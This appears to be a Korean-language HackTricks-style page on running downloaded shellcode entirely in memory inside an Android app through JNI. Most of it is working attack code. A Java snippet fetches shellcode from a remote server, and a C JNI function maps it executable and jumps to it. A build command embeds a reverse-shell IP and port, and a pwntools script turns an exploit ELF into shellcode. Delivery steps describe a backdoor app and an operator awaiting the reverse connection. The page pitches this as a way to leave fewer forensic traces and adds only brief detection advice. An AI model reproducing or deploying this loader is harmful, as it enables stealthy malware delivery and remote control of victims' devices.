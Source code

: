 # Android에서 JNI를 통한 In-Memory Native Code Execution (shellcode)

{{#include ../../banners/hacktricks-training.md}}

이 페이지는 untrusted Android 앱 프로세스에서 JNI를 사용해 네이티브 페이로드를 완전히 메모리 내에서 실행하는 실무 패턴을 문서화합니다. 이 흐름은 디스크에 네이티브 바이너리를 생성하지 않습니다: raw shellcode 바이트를 HTTP(S)로 다운로드하고, 이를 JNI 브리지로 전달한 다음 RX 메모리를 할당하고 점프합니다.

왜 중요한가
- 포렌식 아티팩트 감소 (디스크에 ELF 없음)
- ELF exploit binary에서 생성된 “stage-2” native payloads와 호환
- modern malware 및 red teams가 사용하는 tradecraft와 일치

High-level pattern
1) Java/Kotlin에서 shellcode 바이트를 가져옴  
2) 바이트 배열을 인자로 native method (JNI)를 호출  
3) JNI 내부: RW 메모리 할당 → 바이트 복사 → mprotect로 RX로 변경 → entrypoint 호출

Minimal example

Java/Kotlin side
```java
public final class NativeExec {
static { System.loadLibrary("nativeexec"); }
public static native int run(byte[] sc);
}

// Download and execute (simplified)
byte[] sc = new java.net.URL("https://your-server/sc").openStream().readAllBytes();
int rc = NativeExec.run(sc);
```
C JNI 측 (arm64/amd64)
```c
#include <jni.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>

static inline void flush_icache(void *p, size_t len) {
__builtin___clear_cache((char*)p, (char*)p + len);
}

JNIEXPORT jint JNICALL
Java_com_example_NativeExec_run(JNIEnv *env, jclass cls, jbyteArray sc) {
jsize len = (*env)->GetArrayLength(env, sc);
if (len <= 0) return -1;

// RW anonymous buffer
void *buf = mmap(NULL, len, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
if (buf == MAP_FAILED) return -2;

jboolean isCopy = 0;
jbyte *bytes = (*env)->GetByteArrayElements(env, sc, &isCopy);
if (!bytes) { munmap(buf, len); return -3; }

memcpy(buf, bytes, len);
(*env)->ReleaseByteArrayElements(env, sc, bytes, JNI_ABORT);

// Make RX and execute
if (mprotect(buf, len, PROT_READ | PROT_EXEC) != 0) { munmap(buf, len); return -4; }
flush_icache(buf, len);

int (*entry)(void) = (int (*)(void))buf;
int ret = entry();

// Optional: restore RW and wipe
mprotect(buf, len, PROT_READ | PROT_WRITE);
memset(buf, 0, len);
munmap(buf, len);
return ret;
}
```
참고 및 주의사항
- W^X/execmem: 최신 Android는 W^X를 적용합니다; 익명 PROT_EXEC 매핑은 JIT가 있는 앱 프로세스에 대해 (SELinux 정책에 따름) 일반적으로 여전히 허용됩니다. 일부 기기/ROM은 이를 제한할 수 있으므로, 필요 시 JIT-allocated exec pools 또는 native bridges로 대체하세요.
- Architectures: shellcode 아키텍처가 기기와 일치하는지 확인하세요(일반적으로 arm64-v8a; x86은 에뮬레이터에서만).
- Entrypoint contract: shellcode 진입 규약(인수 없음 vs 구조체 포인터)을 결정하세요. position-independent (PIC)로 유지하세요.
- Stability: 점프하기 전에 instruction cache를 지우세요; 캐시 불일치는 ARM에서 크래시를 일으킬 수 있습니다.

패키징: ELF → position‑independent shellcode
안정적인 운영 파이프라인은 다음과 같습니다:
- exploit을 musl-gcc로 static ELF로 빌드하세요
- ELF를 pwntools’ shellcraft.loader_append를 사용해 self‑loading shellcode blob으로 변환하세요

빌드
```bash
musl-gcc -O3 -s -static -fno-pic -o exploit exploit.c \
-DREV_SHELL_IP="\"10.10.14.2\"" -DREV_SHELL_PORT="\"4444\""
```
ELF를 raw shellcode로 변환 (amd64 예제)
```python
# exp2sc.py
from pwn import *
context.clear(arch='amd64')
elf = ELF('./exploit')
loader = shellcraft.loader_append(elf.data, arch='amd64')
sc = asm(loader)
open('sc','wb').write(sc)
print(f"ELF size={len(elf.data)}, shellcode size={len(sc)}")
```
왜 loader_append가 작동하는가: 이는 내장된 ELF 프로그램 세그먼트를 메모리에 매핑하고 그 entrypoint로 제어를 전달하는 작은 로더를 생성하여, 앱이 memcpy’ed하여 실행할 수 있는 단일 raw blob을 제공합니다.

Delivery
- 자신이 제어하는 HTTP(S) 서버에 sc를 호스트한다
- 백도어/테스트 앱이 sc를 다운로드하고 위에 나온 JNI 브리지를 호출한다
- 커널/유저 모드 페이로드가 생성하는 리버스 연결을 수신하기 위해 운영자 머신에서 대기한다

Validation workflow for kernel payloads
- 빠른 리버싱/오프셋 복구를 위해 symbolized vmlinux를 사용한다
- 가능하면 편리한 debug 이미지에서 primitives를 프로토타이핑하되, 항상 실제 Android 대상에서 재검증해야 한다 (kallsyms, KASLR slide, page-table layout, and mitigations differ)

Hardening/Detection (blue team)
- 가능한 경우 앱 도메인에서 anonymous PROT_EXEC을 금지한다 (SELinux policy)
- 엄격한 코드 무결성을 적용한다 (no dynamic native loading from network) 및 업데이트 채널을 검증한다
- RX로의 의심스러운 mmap/mprotect 전환 및 점프 전에 일어나는 대용량 바이트-배열 복사를 모니터링한다

References
- [CoRPhone challenge repo (Android kernel pwn; JNI memory-only loader pattern)](https://github.com/0xdevil/corphone)
- [build.sh (musl-gcc + pwntools pipeline)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/build.sh)
- [exp2sc.py (pwntools shellcraft.loader_append)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/exp2sc.py)
- [exploit.c TL;DR (operator/kernel flow, offsets, reverse shell)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/exploit.c)
- [INSTRUCTIONS.md (setup notes)](https://github.com/0xdevil/corphone/blob/main/INSTRUCTIONS.md)

{{#include ../../banners/hacktricks-training.md}}
